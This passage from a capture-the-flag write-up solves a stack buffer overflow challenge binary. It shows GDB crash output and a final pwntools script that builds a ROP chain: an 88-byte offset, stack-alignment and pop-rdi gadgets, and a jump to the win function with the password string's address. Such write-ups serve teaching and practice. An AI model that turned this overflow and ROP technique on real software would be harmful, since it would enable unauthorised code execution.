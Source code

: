 Let's run it and see what happens:


```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x00007ffc3b3d4ab8  →  0x00007ffc3b3d5f7e  →  "CLUTTER_IM_MODULE=ibus"
$rcx   : 0x00000000004396e0  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x1               
$rsp   : 0x00007ffc3b3d4900  →  0x6767676767676767 ("gggggggg"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1               
$rdi   : 0x6767676767756c73 ("sluggggg"?)
$rip   : 0x0000000000401ea1  →   ret 
$r8    : 0x000000001b9d0797  →  0x0000000000000000
$r9    : 0x0               
$r10   : 0xffffffff        
$r11   : 0x202             
$r12   : 0x1               
$r13   : 0x00007ffc3b3d4aa8  →  0x00007ffc3b3d5f76  →  0x006c6c6168632f2e ("./chall"?)
$r14   : 0x1               
$r15   : 0x1               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x401ea1 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401ea1 → ret 
```

Uh oh, seems like it segments. Why is that? Well, this is due to how we're passing the string to strcmp. Looking at our registers, we can see that RDI contains `"sluggggg"`, but this is being loaded directly from our payload as a value rather than as a pointer to a string in memory. **`strcmp` expects pointers to strings, not the string data itself**.

So instead of loading the actual password, we need to load the address of where the password is. We can do this in two ways: get the string address from Ghidra, or again, use pwnlib. Within pwnlib we can use `elf.search()` to get the location of the string. Here's that applied:

### Final Solution
```py
$ cat solve.py 
from pwn import *

p = gdb.debug('./chall', 'b *0x40171b') # strcmp within win func
elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 88 # offset to control rsp, found using cyclic pattern
payload += p64(rop.find_gadget(['ret'])[0]) # align stack
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # pop arg into rdi since thats what strcmp is checking againsti

password_addr = next(elf.search(b'sluggggggggggggggggggsecure_umm_yeah_i_sure_hope_it_is'))
payload += p64(password_addr)
payload += p64(0x4016f5)

p.sendlineafter('> ', payload)
print(p.recvall().decode())
```
